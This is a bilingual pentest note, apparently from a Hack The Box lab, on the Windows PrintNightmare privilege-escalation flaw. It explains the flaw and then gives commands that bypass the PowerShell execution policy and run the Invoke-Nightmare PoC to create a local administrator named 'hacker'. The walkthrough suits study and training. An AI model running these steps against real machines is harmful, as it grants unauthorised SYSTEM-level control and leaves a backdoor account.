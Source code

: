 # CVE-2021-1675/CVE-2021-34527 PrintNightmare

<mark style="color:green;">**CVE-2021-1675/CVE-2021-34527 PrintNightmare**</mark>&#x20;

{% hint style="warning" %}
Une faille dans **RpcAddPrinterDriver**, qui est utilisée pour permettre l'impression à distance et l'installation de pilotes.&#x20;

Cette fonction est censée donner aux utilisateurs ayant le privilège Windows **SeLoadDriverPrivilege** la capacité d'ajouter des pilotes à un **Print Spooler** distant. Ce droit est généralement réservé aux utilisateurs du groupe **Administrateurs intégrés** et aux **opérateurs d'impression** qui peuvent avoir un besoin légitime d'installer un pilote d'imprimante sur la machine d'un utilisateur final à distance. La faille permettait à **tout utilisateur authentifié** d'ajouter un pilote d'imprimante à un système Windows sans posséder le privilège mentionné ci-dessus, permettant à un attaquant d'exécuter à distance du **code arbitraire avec les privilèges SYSTEM** sur n'importe quel système affecté. La faille affecte **toutes les versions supportées de Windows**, et étant donné que le **Print Spooler** s'exécute par défaut sur les **Contrôleurs de Domaine**, **Windows 7 et 10**, et est souvent activé sur les **serveurs Windows**, cela présente une **surface d'attaque massive**, d'où le terme "nightmare" (cauchemar).\
Microsoft a initialement publié un patch qui ne corrigeait pas le problème (et les premières recommandations consistaient à désactiver le service **Spooler**, ce qui n'est pas pratique pour de nombreuses organisations), mais a publié un **deuxième patch en juillet 2021**, accompagné de recommandations pour vérifier que certains paramètres du registre soient soit définis sur **0**, soit non définis.\
Une fois que cette vulnérabilité a été rendue publique, des **exploits PoC** ont été rapidement publiés. Cette version par **@cube0x0** peut être utilisée pour exécuter une **DLL malveillante à distance ou localement** en utilisant une version modifiée de **Impacket**. Le **repo** contient également une implémentation en **C#**. Cette implémentation **PowerShell** peut être utilisée pour une **escalade rapide de privilèges locaux**. Par défaut, ce script ajoute un **nouvel utilisateur administrateur local**, mais il est également possible de fournir une **DLL personnalisée** pour obtenir un **reverse shell** ou d'autres actions similaires si l'ajout d'un utilisateur administrateur local n'est pas dans le périmètre.
{% endhint %}

<mark style="color:green;">**Checking for Spooler Service**</mark>

We can quickly check if the Spooler service is running with the following command. If it is not running, we will receive a "path does not exist" error.

```powershell-session
PS C:\htb> ls \\localhost\pipe\spoolss
```

<mark style="color:green;">**Adding Local Admin with PrintNightmare PowerShell PoC**</mark>

First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

```powershell-session
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process
```

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
{% endcode %}

<mark style="color:green;">**Confirming New Admin User**</mark>

```powershell-session
PS C:\htb> net user hacker
```
